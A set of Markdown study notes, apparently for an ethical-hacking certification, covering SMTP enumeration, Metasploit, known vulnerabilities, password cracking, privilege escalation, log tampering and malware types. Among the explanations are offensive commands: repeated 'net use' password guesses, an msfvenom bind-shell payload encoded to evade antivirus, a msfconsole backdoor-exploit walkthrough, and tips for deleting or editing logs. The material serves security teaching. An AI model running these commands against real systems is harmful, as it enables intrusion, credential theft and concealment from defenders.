    - Compared to running over TLS, it encrypts communication AFTER the communication is established.
    - STARTTLS is also known as **opportunistic TLS** as it would fall back to unencrypted communication if server does not support it.
- See [MX records](./dns-enumeration.md#dns-records) to find SMTP servers
- Allows to validate e-mail addresses to ensure they exist
  - 🤗 One another: Go to provider → try creating account with that e-mail.
  - 🤗 Large collection of e-mails can be sold or used for phishing.
  - 🤗 Many e-mail senders (e.g. AWS Simple Email Service) blocks you if you send e-mails that will not reach the targets.
    - One idea is to create fake accounts in cloud providers → ask to increase soft limits → enumerate per accounts

#### SMTP enumeration through SMTP commands

- `VRFY`: validates e-mail address that actually exists
- `EXPN`: tells the actual delivery address of aliases and mailing lists
- `RCPT TO`: Defines recipients of the messages
- ❗ Some admins may turn off `VRFY` and `EXPN`, but not `RCPT TO` (or no one can receive e-mail)

#### SMTP enumeration through tools

- [NetScanTools Pro SMTP Server Tests Tool Description](https://www.netscantools.com/nstpro_smtp_server_tests.html)
  - Used to perform tests sending e-mails
- [`smtp-user-enum`](https://github.com/pentestmonkey/smtp-user-enum)
  - Enumerates OS-level user accounts on Solaris
  - Inspects responses to `VRFY`, `EXPN` and `RCPT TO`
  - 
    - `stmpy-user-enum -M <command> -U <list of emails> -t <SMTP server>`

### Brute forcing Active Directory

1. Get admin user with [SID 500](#security-identifier-sid)
   - `Get-ADUser -Filter * | where { $_.SID -like "*-500" }`
2. Brute-force its credentials
   - E.g. if user is `admin@cloudarchitecture.io`:
     - `net use \\%computername% "PasswordTest1" /u:admin@cloudarchitecture.io`
     - `net use \\%computername% "PasswordTest2" /u:admin@cloudarchitecture.io`
     - ...
# Automated penetration testing tools

- [CANVAS](https://immunityinc.com/products/canvas/) (proprietary)
  - Exploit gallery and development framework
- [Core Impact](https://www.coresecurity.com/products/core-impact) (proprietary)
  - All-inclusive automated testing framework
- Nmap with custom scripts
  - Can used for • [footprinting](./../02-footprinting/network-footprinting.md#nmap) • [scanning](./../03-scanning-networks/scanning-tools.md#nmap) • [vulnerability analysis](./vulnerability-analysis.md#nmap)
  - Also to carry out attacks e.g. as [DoS tool](./../13-web-applications/denial-of-service.md#dos-tools)

## Automated vs manual penetration testing

- Automated testing cannot fully replace manual testing but as it has its own advantages and disadvantages
- **Automated testing advantages**
  - Help the initial analysis to understand where potential vulnerabilities exist
  - Enable the testers to build efficient exploit strategies to confirm the security vulnerabilities and weaknesses.
  - Same pen test multiple times from different entry points
  - Reduces costs
- **Automated testing disadvantages**
  - It can miss unforeseen instances
  - Usually works from "inside" of the network
  - Fails to work in complex scenarios
  - Usually does not exploit the vulnerabilities
  - Not as creative as humans (yet 😉) in e.g. social engineering

## Metasploit

- 📝 Framework for building and performing exploit attacks against targets.
- [Source code](https://github.com/rapid7/metasploit-framework) | [Website](https://www.metasploit.com/)
- Modular architecture allowing code re-use instead of copying or re-implement on a per-exploit basis

### Free version

- Developing and executing exploit code against a remote target machine.
- Database of vulnerabilities and platform to execute different exploits for them.
- [Fuzzing](./../14-sql-injection/sql-injection-overview.md#fuzz-testing) tools to discover vulnerabilities
- Automated exploitation of known vulnerabilities such as weak passwords for e.g. Telnet, SSH, HTTP.
- Manual exploitation and manual brute forcing
- Zenmap (Nmap GUI)

### Paid (Pro) version

- Web application testing (OWASP Top 10)
- Dynamic payloads for anti-virus evasion
- Has web interface
  - 💡📝 A free alternative is [**Armitage**](http://www.fastandeasyhacking.com/) that's [open-source](https://github.com/rsmudge/armitage) GUI.

### Metasploit interfaces

#### `meterpreter`

- 📝 Payload that provides control over an exploited target system
- Runs as a DLL loaded inside of any process on a target machine
- Resides entirely in memory and writes nothing to disk

#### `msfvenom`

- Generates stand-alone payload
- 📝 Combines
  - Payload generation (old tool: `msfpayload`)
    - `-p <payload-name>` e.g. `-p windows/meterpreter/bind_tcp`
    - `-f <format>` e.g. `-f exe` or `-f raw` (shellcode)
  - Encoding (old tool: `msfencode`)
    - Used to avoid antivirus detection
    - Done by `-b` or `-e` flags
    - `-i <number>` allows encoding multiple times for more stealth
- E.g. `msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -f python`
- See also [msfvenom | Hiding files](../06-system-hacking/hiding-files.md#msfvenom)

#### `msfconsole`

- All-in-one centralized console for all of the options available in the MSF
- Contains the most features and is the most stable MSF interface
- E.g. flow for using unreal exploit:
  1. Run `msfconsole`
  2. You can search for a service e.g. `unrealirc`
     - ❗Disclosure date is not same as when vulnerability found, it can be before but not published.
  3. Use with `use exploit/unix/irc/unreal_ircd_3281_backdoor`
     - There can be multiple payloads, check with `show payload` and then set with `set PAYLOAD <name>`
     - Set required options (`show options` to list) and `set <option-name> <option-value>`to set
  4. Run exploit using `exploit`
     - Hopefully you'll end up in terminal session as root :)
# Common vulnerabilities

## Shellshock

- Also known as ***bashdoor*** or ***bash bug***
- Privilege escalation vulnerability enabling arbitrary commands execution
- 📝 Caused by family of security bugs in the Unix Bash shell
- Related CVE entries include: • *CVE-[2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)*, *CVE-[2014-6277](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6277)* • *CVE-[2014-6278](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2014-6278)*, *CVE-[2014-7169](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169)* • *CVE-[2014-7186](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7186)*, *CVE-[2014-7187](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7187)*
- Achieved by manipulating the environment variable list and then cause Bash to run
- Upon startup Bash parser executes scripts saved as environment variables
- E.g. `$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`
  - Prints first `vulnerable` then `this is a test`
- To exploit there needs to be away to talk to Bash.
- Often exploits websites using CGI
  - CGI stands for "Common Gateway Interface"
  - In Apache it's done using [mod_cgi](https://httpd.apache.org/docs/2.4/mod/mod_cgi.html)
    - Way to let Apache execute script files and send the output to the client
    - Apache passes information to CGI scripts using environment variables
  - E.g. if you you have a HTTP header named `Sike` in your request, you will have an
environment variable named `HTTP_SIKE` available in your CGI.
- Big impact
  - Thousands of attacks were reported when the bug was revealed including botnets against [United States Department of Defense](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#cite_note-IT-20140926-JS-10).
  - > "Shellshock makes Heartbleed look insignificant" - [ZDNet](https://www.zdnet.com/shellshock-makes-heartbleed-look-insignificant-7000034143/)

### Detecting Shellshock using Nmap

- Can use [Shellshock script](https://Nmap.org/nsedoc/scripts/http-shellshock.html) with Nmap scripting engine.
- `nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/blabla.sh,cmd=ls 192.168.122.17.8`
  - `-sV`: detect services and versions
  - `-p`: port 80, you can also do -p- to scan for entire port range
  - `--script`: You can test different scripts / vulnerabilities, choose anything from [scripts page](https://Nmap.org/nsedoc/scripts)
  - `--script-args`: optional, 2 args, uri and cmd

## SSL/TLS Vulnerabilities

### Heartbleed

- 📝 Bug in [OpenSSL](https://www.openssl.org/) library a widely used implementation of TLS.
- Introduced and patched in April 2014.
- Results from improper input validation (no boundary check) in TLS heartbeat extension
- Causing server to send more data in the memory than it allowed
  - Classified as **buffer over-read**
- Flow
  - TLS/DTLS Heartbeat flow:
    - Client: `Send me 4 letter word: "bird"` -> Server: `"bird"`
  - Malicious Heartbeat flow:
    - Client: `Send me 500 letter word: "bird"` -> Server: `bird. Server master key is 3131531535. User Carol wants to change password to "password 1 2 3"...`
- **Reverse Heartbleed**
  - Malicious server exploiting Heartbleed to read from client memory.
- Millions of webpages were affected, still there are IoT devices are vulnerable (see [shodan search](https://www.shodan.io/report/0Wew7Zq7))
- Had big impact, some known ones are [stealing of millions of patient records](http://time.com/3148773/report-devastating-heartbleed-flaw-was-used-in-hospital-hack/), [hijacking accounts CEO impersonation](https://www.bbc.co.uk/news/technology-27028101) ....
  - > "Heartbleed is the worst vulnerability found" - [Forbes](https://www.forbes.com/sites/josephsteinberg/2014/04/10/massive-internet-security-vulnerability-you-are-at-risk-what-you-need-to-do/)
- Can be exploited
  - Using Nmap: `nmap -p 443 --script ssl-heartbleed <target>`
    - Will return "State: NOT VULNERABLE" if not vulnerable.
  - Using Metasploit: [openssl_heartbleed](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/ssl/openssl_heartbleed.md) module

### POODLE

- POODLE stands for "Padding Oracle On Downgraded Legacy Encryption"
- 📝 Forcing a degradation to a vulnerable SSL/TLS version
  - TLS handshakes are walked down the connection until a usable/vulnerable one is found
  - Exploits backwards compatibility
- Man-in-the-middle exploit
- Affects both SSL and TLS
  - Vulnerability was disclosed in October 2014 for SSL.
  - A variation used to attack TLS was disclosed in December 2014.
- **POODLE attack against SSL**
  - Takes advantage of Internet and security software clients' fallback to SSL 3.0.
  - Attackers make 256 SSL 3.0 request on average to reveal a single byte.
- **POODLE attack against TLS**
  - Caused by some implementation not following the TLS specifications.
  - Exploits CBC encryption mode in the TLS 1.0 - 1.2 protocols

### FREAK

- Stands for "Factoring RSA Export Keys"
- Man-in-the-middle attack forcing downgrade of RSA key to a weaker length
- Enables successful brute-force attacks.
- Exploits cryptographic weakness in the SSL/TLS protocols

### SSL/TLS Renegotiation

- 📝 Leads to plaintext injection attacks against SSL 3.0 and all current versions of TLS
- **Background**
  - Marsh Ray and Steve Dispensa release a document discussing a vulnerability in the design of TLS – November 4, 2009
  - Turkish grad student, Anil Kurmus, exploits the vulnerability to steal Twitter login credentials – November 10, 2009
- **Mitigation**
  - Quick fix was the renegotiation
  - Proposed standard ([RFC 5746](https://tools.ietf.org/html/rfc5746)) is to verify previous renegotiation handshakes between client and server.
- **Testing**
  - Use `open_ssl s_client -connect <website>:443`
  - Then type `R` for renegotiate and `[ENTER]`

### DROWN

- Stands for "Decrypting RSA with Obsolete and Weakened eNcryption"
- Exploits modern SSL/TLS suites by exploiting their obsolete SSLv2 protocol support.
- The only viable countermeasure is to disable SSLv2 on all servers
# Vulnerability analysis

- **Vulnerability research** helps identify vulnerabilities which could compromise the system
- Scanning types
  - **Active scanning**: interacting directly with the target network to discover vulnerabilities
  - **Passive scanning**: discovering vulnerabilities without a direct interaction with the target network

## Vulnerability categories

- Misconfiguration
- Default installations
- Buffer overflows
- Unpatched servers
- Design flaws
- Operating system flaws
- Application flaws
- Open services
- Default passwords

## Vulnerability assessment types

- **Active assessment**: through network scanners
- **Passive assessment**: by sniffing the traffic
- **External assessment**: vulnerabilities & threats that are accessible outside of the organization
- **Internal assessment**: vulnerabilities & threats that are present internally
- **Host-Based assessment**: vulnerabilities & threats on a specific server by examining the configuration
- **Network assessment**: identifies potential attacks on the network
- **Application assessment**: examines the configuration of the web infrastructure
- **Wireless network assessment**: vulnerabilities & threats in the organization's wireless network

## Vulnerability management

- Evaluation and control of the risks and vulnerabilities in the system
- Phases:
  - **Pre-assessment phase**
    - Creating baseline: Identifying critical assets and prioritizing them
  - **Assessment phase**
    - Vulnerability assessment: identifying known vulnerabilities
  - **Post-assessment phase**
    - **[Risk assessment](./../01-introduction/risk-management.md#risk-assessment)**: assessing the vulnerability and risk levels for the identified assets
    - **Remediation**: mitigating and reducing the severity of the identified vulnerabilities
    - **Verification**: ensuring that all phases have been successfully completed
    - **Monitoring**: identifying new threats and vulnerabilities

## Vulnerability assessment solution types

- Product-based solutions: installed in the internal network
- Service-based solutions: offered by third parties
- Tree-based assessment: different strategies are selected for each machine
- Inference-based assessment
  1. Find the protocols to scan
  2. Scan and find the found protocols and their services,
  3. Select the vulnerabilities and begins with executing relevant tests.

## Vulnerability scoring systems

- Vulnerabilities that are identified are stored into databases
- Certain scores based on their severity and risk

### CVSS - Common Vulnerability Scoring System

- A free and open industry standard for assessing the severity of computer system security vulnerabilities
- Helps to assess and prioritize vulnerability management processes.
- Assigns severity scores to vulnerabilities
- [Score calculator](https://www.first.org/cvss/calculator/3.1) depends on metrics that include ease and impact of exploit.

### CVE - Common Vulnerabilities and Exposures

- [Mitre.org](https://cve.mitre.org)
- List of common identifiers for publicly known cybersecurity vulnerabilities
- E.g. `CVE-2020-0023`: disclosure of user contacts over bluetooth due to a missing permission check on Android.

### NVD - National Vulnerability Database

- U.S. government repository of standards based vulnerability management data
- [nvd.nist.gov](https://nvd.nist.gov/)
- Includes databases of security checklist references, security-related software flaws, misconfigurations, product names, and impact metrics
  - E.g. [CVE](#cve---common-vulnerabilities-and-exposures)

## Vulnerability assessment report

- Written after an assessment is performed
- Classified into **security vulnerability report** and **security vulnerability summary**.
- Details of what has been done and what has been discovered during the assessment
- Created to help organizations resolve security issues if they exist
- Typically contain information about the scan, target, and results.

## Vulnerability assessment tools

- Also known as **vulnerability scanner**s
- Scanning solutions perform vulnerability penetration tests in three steps
  1. locate the live hosts in the network
  2. enumerate open ports and services
  3. test the found services for known vulnerabilities by analyzing responses.
- Tool types
  - Host-based vulnerability assessment tools
  - Depth assessment tools
  - Application-layer vulnerability assessment tools
  - Scope assessment tools
  - Active/Passive tools
  - Location/Data examined tools
- **OpenVAS**
  - [Open-source](https://github.com/greenbone/openvas) software framework of several services and tools offering vulnerability scanning and vulnerability management.

### Nmap

- Nmap has scripting functionality, written in LUA
- You can scan multiple servers for multiple ports for multiple vulnerabilities.
- `-A`: Enables OS detection, version detection, **script scanning** and traceroute.
- Read more about Nmap in [Nmap | Scanning Tools](./../03-scanning-networks/scanning-tools.md#nmap)
- See [Detecting Shellshock using Nmap | Common vulnerabilities](./common-vulnerabilities.md#detecting-shellshock-using-nmap)

### Nessus

- [Website](https://www.tenable.com/products/nessus)
- 📝 Proprietary port and vulnerability scanner
- Scans include • misconfigurations • default passwords (has [Hydra](../06-system-hacking/password-cracking-tools.md#hydra) built-in) • DoS vulnerabilities
- Can be used to perform compliance auditing, like internal and external PCI DSS audit scans.

### Burp Suite

- 📝 Proxy tool to scan web vulnerabilities
- Allows manual testers to intercept all requests and responses between the browser and the target application
- Allows to view, edit or drop individual messages to manipulate the server-side or client-side components of the application.

### Nikto

- [Nikto](https://cirt.net/Nikto2) is an open source Nikto web server vulnerability scanner.
- Majorly looks for outdated software, dangerous files/CGI etc.
- E.g. `nikto -host cloudarchitecture.io`
- 🤗 Many of the modern scanners including Nessus, OpenVAS use Nikto to get information for their analysis.

### Microsoft Baseline Security Analyzer (MBSA)

- Identifies missing security updates and common security misconfigurations
- Assesses Windows and its sofware e.g.• Internet Explorer • IIS web server • Microsoft SQL Server, • Office macro settings
- It's [deprecated](https://docs.microsoft.com/en-us/windows/security/threat-protection/mbsa-removal-and-guidance)
# Covering tracks

- Attempt to hide attackers presence on the system so the system appears uncompromised.
- To avoid detection the attacker needs to
  - modify the system logs and delete their activity during the attack.
  - ensure that future activities are not logged
- You can mitigate damage by reducing footprint by e.g. making your access disguise a legit process.
- 💡 Have an exit strategy prior to breaking in by getting to know OS type, log types, policies (e.g. log altered alarms) and applications running on it.
  - E.g. if you know OS you can know where in general the OS keeps logs (e.g. `/var/log/`)
  - ❗ There's no universal way to figure out where all the logs are in a system
- Log file permissions
  - Common and big mistake: bad permissions on log files
    - Allows access from a lot of users that shouldn't
  - E.g. to read system messages you need to become root `sudo tail /var/log/messages`
- Terminal history
  - Might leave footprints here for commands you run.
  - Good place to learn about the user (they sometimes write passwords by mistake).
  - You can run `history` to get the history.
    - In (fedora) saved in `home/<username>/.bash_history`

## Security logs

### Windows security logs

- Event logs for are stored in `C:\Windows\System32\winevt\Logs`
- Can use OS tool "Windows Event Viewer" to navigate the logs
- Logs are categorized as application, security and system.

### Linux security logs

- Centralized repository of log files are in `/var/log` directory.
  - See also [Linux folders | Linux basics](./linux-basics.md#linux-folders)
- 📝 Log folders include
  - `/var/log/messages` | `/var/log/syslog` (debian-based)
    - Generic system activity logs
  - `/var/log/auth.log` (Debian and Ubuntu) | `/var/log/secure` (RedHat and CentOS)
    - Authentication/authorization related events
    - E.g. [SSH](./../15-cryptography/tunneling-protocols.md#ssh-secure-shell) logs
  - • `/var/log/utmp` • `/var/log/wtmp` • `/var/log/btmp` | `/var/log/faillog`
    - Login/logout events
  - `/var/log/lastlog`
    - Display information about a user's last login time
  - `/var/log/cron`
    - Cron service logs
    - Can include failed authorizations
  - `/var/log/secure`
    - Authentication and authorization privileges.
    - E.g. sshd logs including unsuccessful login.

## Techniques of covering tracks

- **Disabling auditing**
  - Disabling auditing features of the system
  - Disabling logging is difficult
    - Hard to know what kind of logs are being collected
    - Can include OS logs, additional security mechanisms logs, side applications logs..
    - Usually requires system restart for disabling of logs
      - E.g. if you use SELinux (can check with `getenforce`) it has different modes: • permissive (just logs) • enforcing and • disabled state
        - Setting its state to disabled requires a restart.
- **Clearing logs**
  - Deleting the attacker's logged activities
  - ❗Suspicious if all logs are deleted may raise alarms.
- **Manipulating logs**:
  - Changing the logs to prevent detection
  - E.g. search and replace your IP
- To cover tracks on network, attackers use

### Covering tracks on network

- **Reverse shell**
  - Target system sends a request to the remote system to act on the response.
  - **Reverse HTTP shells**
    - Asks the master system for commands to execute on the target machine
  - **Reverse ICMP tunnels**
    - Accessing the system by using ICMP echo and reply packets as carriers of TCP payload
- **DNS tunneling**
  - Adding data payload to the target's DNS server to create a back channel to steal information
- **TCP parameters**
  - Using TCP parameters for payload distribution.
  - Fields in which data can be hidden are e.g.
    - IP identification field, TCP acknowledgement number, and TCP initial sequence number.

### Tools for covering tracks

- [Privacy.sexy](https://privacy.sexy): Online/offline nad open source tool that can cleanup logs and personal activities.
- [Auditpol](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/auditpol): Microsoft tool to manipulate audit policies.
- [MRU-blaster](https://www.brightfort.com/mrublaster.html): Find and remove 30,000 MRU lists.
# Cracking passwords overview

- Recovering passwords from the transmitted or stored data on computer systems.
- See also [Password cracking techniques | Web server threats and attacks](./../12-web-servers/web-server-threats-and-attacks.md)

## Password attack types

### Non-electronic attacks

- Do not require the attacker to have any technical knowledge about cracking passwords.
- [**Dumpster diving**](./../10-social-engineering/social-engineering-types.md#dumpster-diving)
  - Looking for notes or anything that can help in cracking the password.
- **Shoulder surfing**
  - Observing the target while they type in their passwords
  - E.G. looking at their keyboard or screen
- **[Social engineering](./../10-social-engineering/social-engineering-overview.md)**
  - Interacting with the target to trick them into revealing their passwords.

### Active online attacks

- Require the attacker to communicate with the target machine in order to crack the password.
- E.g. trying to login with username password combination on an online login page.
- ❗ Limitations
  - Network communication to server over internet takes long time
  - There are rate limits e.g. get locked after 5 minutes, then 10 then 15
  - If server becomes suspicious that it's a bot then it might shut you off directly
  - Offline attack can perform millions/billions a second
    - Online attack, e.g. every 5 seconds, if you fail 5 times you might get locked out.

#### Dictionary attack

- 📝 Dictionary = file containing list of passwords
- Steps
  1. Load a dictionary file into a password cracking program.
  2. The program checks the passwords against user accounts.
- Helps to test against
  - Default passwords
  - Common / weak passwords
  - Leaks downloaded from internet
- ❗ Limitations
  - Can get too big
  - No guarantee to find the password
- See also [Dictionary attacks | Cryptanalysis](./../15-cryptography/cryptanalysis.md#dictionary-attack)

#### Brute-force attack

- Running every combination of characters until the password is cracked.
- Slowest technique (can take years) but comprehensive.
  - 💡 Should be used in combination with [rule-based attack](#rule-based-attack) to increase the speed.
- See also [Brute force attack | Cryptanalysis](./../15-cryptography/cryptanalysis.md#brute-force-attack)

#### Hybrid attack

- 📝 [Dictionary attack](#dictionary-attack) + [brute force attack](#brute-force-attack)  
- Taking a dictionary and expanding it with guesses using brute-force.
- It prepends, appends or substitutes characters in words.
- E.g. using [`hashcat`](https://hashcat.net/wiki/doku.php?id=hybrid_attack)
  - Say an `example.dict` contains: `password` and `hello`
  - `... -a 6 example.dict ?d?d` would generate from `password00` and `hello00` to `password99` and `hello99`

#### Rule-based Attack

- Used when the attacker has some information about the password
  - such as the length, if there are any digits, and similar.
- Attacker combines several other attacks to crack the password.
  - E.g. brute force, dictionary, and syllable attack.
- Can e.g. record people, or use other [non-electronic attacks](#non-electronic-attacks) to get some portions of the password to build rules.

#### Password guessing

- Guess passwords either by humans or by automated tools using dictionaries
- Requires the attacker to manually attempt to log into the target's machine.
- E.g.
  1. Find the target's username
  2. Create a password dictionary list
     - 💡 Good to add default passwords from manufacturers.
  3. Sort the passwords by the probability
  4. Try each password

#### Trojan/spyware/keylogger

- Installed in target machine to get the target's passwords and usernames.
- They run in the background and sometimes are difficult to detect.
- **Trojans**
  - Design to collect information or harm the system.
  - Allow attackers to remotely access the machine and perform malicious activities.
- **Spyware** are designed to collect secret information.
- **[Keyloggers](./executing-applications.md#keylogger)** to send key strokes to the attacker.

#### Hash injection

- Attack on systems that use hash functions for the user authentication.
- Steps:
  1. Retrieve the hashes which are stored in a databases
  2. Find the hash that belongs to the user
  3. Use that hash to create an authenticated session.

#### LLMNR/NBT-NS poisoning

- LLMNR = Link Local Multicast Name Resolution
- NBT-NS = NetBIOS Name Service
- Two main Windows OS elements that perform host name resolution.
- **Vulnerability**
  - When DNS fails to resolve name queries, the host sends a UDP broadcast message to other hosts asking them to authenticate themselves
  - Allows an attacker to listen for such broadcast messages and tricks the host into establishing a connection.
  - Once the connection is established, the host sends its username and NTLMv2 hash, which the attacker can attempt to crack and in such a way discover the password.

### Passive online attacks

- Grabbing data in-transit e.g. a key, password hash
- Without communicating with the target machine.
- Attacker
  1. Monitors the communication channel
  2. Records the traffic data
  3. Uses the data to break into the system.

#### Wire sniffing

- Attackers sniff credentials by capturing packets that are being transmitted
- During the packet transmission, attackers
  - capture packets
  - extract sensitive information such as passwords and emails
    - uses them to  gain access to the target system.

#### Man-in-the-middle (MITM) attack

- Attacker gains access to the communication channel between the target and server.
- Attacker then extracts information and data they need to gain unauthorized access.

#### Replay attack

- Involves using a sniffer to capture packets and authentication tokens.
- Need access to raw network data using e.g.
  - Network tap to physically copy everything that goes through in network.
  - Man in the middle attack using e.g. ARP poisoning.
  - Malware on victims computer
- Attacker replay information using e.g. extracted authentication token or hashed password.
- **Countermeasure**
  - Using Session ID for each user session on server side
  - Expire session ID in short time intervals so replay attack cannot use same session ID

### Offline attacks

- Cracking efforts on a separate system
- Attacker never attempts to login to the application server that can be logged.
- ❗ Does not mean disconnected from internet.
- Usually the attacker tries to guess a password from a hash dump.
  - E.g. SAM file on Windows or `/etc/shadow` on Linux.

#### Distributed network attack (DNA)

- Uses the power of machines across the network to decrypt passwords.
- Used for recovering passwords from hashes
- DNA manager is installed on a central location
  - Coordinates the attack by allocating portions of the key search to machines which are on the network.

#### Hash attacks

- [Rainbow table attack](../15-cryptography/cryptanalysis.md#rainbow-table-attack)
- [Collision](../15-cryptography/cryptanalysis.md#collision-attack)
- [Birthday attack](../15-cryptography/cryptanalysis.md#birthday-attack)
- [Brute-force attack](../15-cryptography/cryptanalysis.md#brute-force-attack)

#### Password cracking countermeasures

- 📝 Use [**password salting**](./../15-cryptography/hashing-algorithms.md#salted-hash)
  - The longer the random string, the harder it becomes to break or crack the password
  - Generates different hashes for the same password
  - Protects against [rainbow tables](../15-cryptography/cryptanalysis.md#rainbow-table-attack) as it would cause the table to include salts making it much bigger.
- Use [key stretching](./../15-cryptography/hashing-algorithms.md#key-stretching) to derive stronger passwords to use in encryption.

## Linux passwords

- 📝 Linux hashed passwords lies in `/etc/shadow/` so you can attack on that.
- Linux usually use SHA512, you can find method in `/etc/login.defs`
- In older systems password information was stored in `/etc/passwd`, now it holds only user account information.
# Escalating privileges

- Exploiting OS and software vulnerabilities to gain admin privileges.
  - Generally by executing a malicious code that grant them higher privileges
- Becoming admin on the target system allows all sorts of malicious activities.

## Types of privilege escalation

- **Horizontal privilege escalation**
  - Acquiring the privileges of the same level
  - Allows executing files from a location that should be protected
- **Vertical privilege escalation**
  - Acquiring higher privileges

## Example flow of escalating privileges

- 

## Privilege escalation techniques

- **Path Interception**
  - Creating files at paths to be executed instead of legitimate targets.
  - Exploits misconfigurations, quotes, search orders
- **Web Shell**
  - Installed as backdoor to control from a remote server
- `setuid` and `setgid`
  - Setting them allows to execute files with more privileges than user in macOS and linux.

### Pivoting

- Using a compromised system as a launching point into other systems.
- E.g. in [Metasploit](./../05-vulnerabilities/automated-penetration-testing-tools.md#metasploit) you can add route to first compromised system to access the network beyond it.

### Windows techniques

#### Access token manipulation

- Access tokens are used in Windows as **security context** of a process or thread
- Every process user executes gets token issued for authentication user.
- User can modify the tokens so processes seem to belong another user.
- E.g. "run as" runs as administrator user therefor giving administrator privileges

#### File system permissions weakness

- Binaries in Windows execute with privileges of process that's executing it.
- Original binaries can be replaced with malicious ones to  privileges

#### Windows application shimming

- Shim = Windows Application Compatibility Framework
  - Compatibility layer for newer/older versions of Windows
  - Run in user mode and cannot modify the kernel
- Exploited to e.g. • Bypass UAC (RedirectEXE) • Inject malicious DLLs (InjectDLL) • Capture memory addresses (GetProcAddress)
- Allows attacker to e.g. • Disable Windows defender • Escalate privileges • Install backdoors

#### Windows applications DLL vulnerability

- **Reason**: Failure to supply a fully qualified path of a DLL library that is being loaded.
- **Behavior**: Application looks for the DLL in the directory from which it was executed.
- **Vulnerability**: Placing a malicious DLL into the directory and gain access to the system.

#### Scheduled tasks

- Used to escalate privileges, maintain persistence, start at startup etc.

### macOS techniques

#### OS X applications dynamic library vulnerability

- **Behavior**: OS X looks for dynamic libraries (`dylib`) in multiple directories when loading them.
- **Vulnerability**: Injecting malicious `dylib`s into one of the primary directories, which will then be loaded instead of the original one.

#### Launch Daemon

- Allows to execute malicious files at boot-up time.
- Enables escalating privileges, maintain persistence, start at startup etc.

### Meltdown vulnerability

- Affects some Intel chips
- Bypasses security mechanisms that prevent programs from reading arbitrary locations in system memory.
- If exploited, it gives attackers ability to read the memory outside of the program
- Allows attackers to
  - escalate their privileges
  - read information such as credentials, private keys, and so on.

### Spectre vulnerability

- Affects modern microprocessors
- Tricks a program into accessing the program's memory space.
- Allows attackers to
  - read kernel memory to obtain sensitive information
  - use JavaScript to launch a web-based attack

## Privilege escalation countermeasures

- Apply least-privilege: Never grant more privileges than needed!
- Use encryption and [MFA](./../01-introduction/identity-access-management-(iam).md#multi-factor-authentication-mfa)
- Run services as unprivileged accounts
- Patch and update regularly
- Ensure all executables are write-protected

### User Access Control (UAC)

- 📝 Prompts user for potentially dangerous software in Windows
- Limits softwares to user privileges until an administrator authorizes an elevation.
- 💡 Should be set to "Always Notify"

### Privilege escalation tools

- [BeRoot](https://github.com/AlessandroZ/BeRoot) to check common misconfigurations to find a way to escalate privileges on Linux and Windows
- [linpostexp](https://github.com/reider-roque/linpostexp): Linux post exploitation enumeration and exploit checking tools
- [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) and [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
# Executing applications

- Remotely executing malicious programs designed to steal information, crack passwords, install backdoor, and so on.
- Next step after gaining access and elevating privileges.
- Programs that attackers install include
  - [Backdoor](./../07-malware/malware-overview.md#backdoor)s are designed to collect information and gain unauthorized access to the system
  - Crackers are designed to crack passwords
  - [Keylogger](#keylogger)s are designed to record keystrokes
  - [Spyware](#spyware) are designed to capture screenshots and send them to the attacker

## Keylogger

- Software or hardware device designed to
  1. record every keystroke on the target's keyboard
  2. logs them into a file
  3. sends them to a remote location
- Used for monitoring employee and children computer activity
- Allow gathering confidential information including emails and passwords.
- Two types: [hardware keylogger](#hardware-keylogger) and [software keylogger](#software-keylogger)

### Hardware keylogger

- 
- Look like USB drives and are designed to record keystrokes, which are stored on the device.
- Placed between a keyboard plug and USB socket
- Cannot be detected by anti-spyware or antivirus programs.
- Discoverable as they have to be physically placed onto a target's machine

#### Hardware keylogger types

- **PC/BIOS Embedded**
  - Modifying the BIOS level firmware to capture the keystrokes
- **Keylogger keyboard**
  - Attaching the hardware circuit with the keyboard cable connector
- **External keylogger**
  - Attaching the keylogger between a keyboard and computer.
  - E.g. PS/2 and USB Keylogger, Acoustic/CAM Keylogger, Bluetooth Keylogger, and Wi-Fi Keylogger.

### Software keylogger

- Installed on the target's machine
- Recorded keystrokes are
  - logged into a log file on the target's machine
  - then sent to the attacker using email protocols

#### Software keylogger types

- **Application keylogger**
  - Designed to observe the target's activity whenever type something.
  - It can record emails, passwords, messages, browsing activities, and so on.
- **Kernel keylogger**
  - Designed to exist on a kernel level and act as a keyboard device driver
  - Allows it to record everything that is typed on the keyboard
- **Rootkit keylogger**
  - Forged Windows device driver which records keystrokes
- **Device driver keylogger**
  - Designed to replace the driver that has the keylogging functionality
  - Logs the keystrokes, and send the file to a remote location
- **Hypervisor-based keylogger**
  - Designed to work within a malware hypervisor that is operating on the OS
- **Form grabbing based keylogger**
  - Designed to record web browsing when the Submit event is triggered

## Spyware

- Stealthy program designed to
  - record the target's interaction with the computer and Internet
  - send the recorded data to the attacker
- Able to take and send screenshots.
- Hidden when installed.

### Spyware types

- Desktop spyware
- Email spyware
- Internet spyware
- Child-monitoring spyware
- Screen-capturing spyware
- USB spyware
- Audio and video spyware
- Print spyware
- Telephone spyware
- GPS spyware
# Hiding files

- Attacker attempts to cover their tracks in order to ensure future access to the system.

## Rootkits

- 📝 Creates backdoor to the system to enable the attacker to access to the system.
- Hides itself for not being detected, can e.g.
  - remove itself from the process list
  - replace certain system calls and utilities
- Do not spread by themselves.
  - Usually hidden in other software, waiting to be executed
- 💡 Best alternative for recovery is to wipe and reload from a known-good media.
- See also [Rootkit Trojans](./../07-malware/trojans.md#rootkit-trojans)

### Rootkit objectives

- Gaining remote backdoor access
- Hiding traces of the attack
- Collect confidential data
- Install other malicious programs on the machine

### Rootkit levels

- **Hypervisor level**
  - Acts as a hypervisor and load the target OS as a virtual machine.
- **Hardware/firmware**
  - Conceal itself in hardware devices that are not inspected
